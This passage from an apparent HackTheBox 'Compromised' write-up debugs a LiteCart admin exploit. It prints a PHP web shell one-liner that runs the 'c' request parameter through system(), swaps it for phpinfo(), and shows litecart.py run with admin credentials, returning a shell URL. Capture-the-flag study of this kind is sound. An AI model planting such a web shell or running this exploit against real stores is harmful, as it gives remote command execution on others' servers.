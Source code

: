 lets check why this expoit doesn't work for us .
lets our exploit to check `phpinfo`.

change this line

```shell
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); } ?>
```

to

```shell
<?php phpinfo(); ?>
```
and exploit again.


```shell
┌─[oxy@oxy]─[~/Practice/hackthebox/machine/compromized/exploit]                              
└──╼ $python litecart.py -p'theNextGenSt0r3!~' -u admin -t http://10.10.10.207/shop/admin/
Shell => http://10.10.10.207/shop/admin/../vqmod/xml/CETHV.php?c=id   
```

![phpinfo](/images/compromised/phpinfo.png)
